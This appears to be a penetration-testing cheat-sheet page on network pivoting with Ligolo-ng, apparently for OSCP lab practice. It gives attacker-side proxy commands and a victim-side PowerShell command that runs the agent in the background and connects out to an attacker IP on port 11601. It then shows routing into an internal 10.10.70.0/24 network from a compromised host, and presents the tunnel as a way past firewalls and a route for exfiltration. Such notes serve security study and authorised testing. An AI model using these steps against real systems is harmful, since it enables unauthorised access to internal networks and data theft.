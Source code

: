 ```yaml
---
description: Tunneling with Ligolo-ng
---
```


# Tunneling with Ligolo-ng

Ligolo-ng is a tool used for tunneling network traffic, primarily in penetration testing and security assessments. Its main purpose is to create a secure tunnel between a compromised machine and an attacker's server, allowing the attacker to access internal networks or services that are not directly reachable from the outside. This is especially useful for bypassing firewalls and for exfiltrating data or gaining further access within a target network. Ligolo-ng can support various protocols, making it versatile for different scenarios.

### From Attacker Side - Start Server

{% code overflow="wrap" %}
```bash
sudo ligolo-proxy -selfcert
interface_create --name "oscp-chall"
```
{% endcode %}

### From Victim Side - Connect to Server

{% code overflow="wrap" %}
```powershell
start /B ligolo-agent.exe -ignore-cert -connect 192.168.45.188:11601
```
{% endcode %}

### From Attacker Side - Start Tunneling

Then, from attacker side, after agent joined, run:

{% code overflow="wrap" %}
```bash
session
tunnel_start --tun "oscp-chall"
ifconfig
interface_add_route --name oscp-chall --route 10.10.70.0/24
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhmcPHJfOlTfe2PKc0mF7qJ1Z3s_VhUb7V90x_gD7U9LCmrXQVFgIL4TMOItkViqt9UNUdVxJ5aQ840OaxYXfhdycxFQ6ESfva2634ZBrCVyrAviF9dZ8onBvclYyUe2OZ7-dWf-flZSlA_U-GusL33vUskm6EGItnAZtQbX2QSyJkm0YRPazhxm7cw45s/s1000/ligolo-tunneling.png" alt=""><figcaption><p>Ligolo Proxy</p></figcaption></figure>

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjD_j5E9segsjkDNnswycyDHUWHpcJ9Qn0VrYbzsDjgwSD49ykTPDIVIueAJk7FRxbZUOxmJiBeXkhKSUMuiCZevVo-UKeBtEAIbU6PRGV3vl0Wodr7dJZbinuewa-MypT_7lGPEfj_TRPBGmzIBZnILteBE_RtjE5VwpOB5vcSMKLcz2Ay0PIVM_7pCFs/s1072/route%20add.png" alt=""><figcaption><p>Add new route</p></figcaption></figure>

Now, our machine will able to access internal targets.

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjONfK2_6NjnC03dYAqkHNsaki6sa-RXCULDwXtmxKefZOR0FViXPwbX4-nv-Q9EDzOanKqitS7zUzG8H2z8I-PnztBFPxrG6Pax11G1VyeNqNNabxoe_tauCYzC2qKgrWCAZekvqKHFCJHrktHQxWHbpO2C6AKPZ9GlnG_zGKbCTIVicxRoPt_vXHIgSU/s1067/internal%20targets.png" alt=""><figcaption><p>Internal Access</p></figcaption></figure>
